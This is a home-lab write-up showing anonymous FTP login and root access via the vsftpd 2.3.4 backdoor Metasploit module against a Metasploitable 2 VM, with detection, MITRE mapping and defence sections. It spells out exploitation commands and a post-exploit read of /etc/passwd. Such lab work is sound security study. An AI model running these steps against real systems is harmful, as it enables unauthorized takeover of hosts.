



# Attack 02 — FTP Anonymous Login and Backdoor Exploitation

## Lab Details
| Field | Detail |
|-------|--------|
| Date | 19 March 2026 |
| Category | Initial Access / Credential Attack |
| Difficulty | Beginner |
| MITRE ATT&CK | T1190 — Exploit Public Facing Application |
| Tools | Nmap, FTP Client, Metasploit Framework |

## Lab Setup
| Machine | Role | IP |
|---------|------|----|
| Kali Linux | Attacker | 192.168.6.128 |
| Metasploitable 2 | Victim | 192.168.6.129 |

## What I Did
First confirmed FTP service was running on port 21.
Then connected anonymously with no password.
Then exploited the vsftpd 2.3.4 backdoor using
Metasploit to get full root access on the system.

## Commands Used

Step 1 — Confirm FTP is running:
nmap -sV -p 21 192.168.6.129

Step 2 — Connect anonymously:
ftp 192.168.6.129
Name: anonymous
Password: (just press Enter)

Step 3 — Exploit vsftpd 2.3.4 backdoor in Metasploit:
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.6.129
run

Step 4 — After getting shell, verify access:
whoami
hostname
id
cat /etc/passwd

## What I Found

- Anonymous FTP login successful — no password required
- Directory listing was empty but login worked
- vsftpd 2.3.4 has a known backdoor vulnerability
- Metasploit exploited it and opened a shell session
- Got full root access — uid=0(root) gid=0(root)
- Read /etc/passwd file — all system users exposed

## Critical Finding
Full root access obtained on the target machine.
This means complete control — read all files,
create users, install malware, do anything.

## What a SOC Analyst Should Detect

- Anonymous FTP login attempt in FTP logs
- FTP connection followed immediately by exploit attempt
- Unusual outbound connection on port 6200 — backdoor port
- New shell session opened from FTP service
- SIEM alert: FTP anonymous login + privilege escalation in same session

## MITRE ATT&CK
- T1190 — Exploit Public Facing Application
- T1078 — Valid Accounts (Anonymous FTP)
- T1068 — Exploitation for Privilege Escalation

## Defence
- Disable anonymous FTP login immediately
- Never run vsftpd 2.3.4 — it has a known backdoor
- Block port 21 on internet facing interfaces
- Use SFTP instead of FTP — encrypted and secure
- Monitor FTP logs for anonymous login attempts

## Lessons Learned
- Anonymous FTP login requires zero credentials
- vsftpd 2.3.4 has a backdoor that gives instant root access
- One vulnerable service can mean full system compromise
- /etc/passwd exposes all system user accounts
- Always update software — old versions are exploited easily

## Screenshots
### FTP Anonymous Login

### Root Access via Metasploit Backdoor

### Combined Output — passwd file

## Previous Attack
Attack 01 — Network Reconnaissance with Nmap

## Next Attack
Attack 03 — SSH Brute Force Attack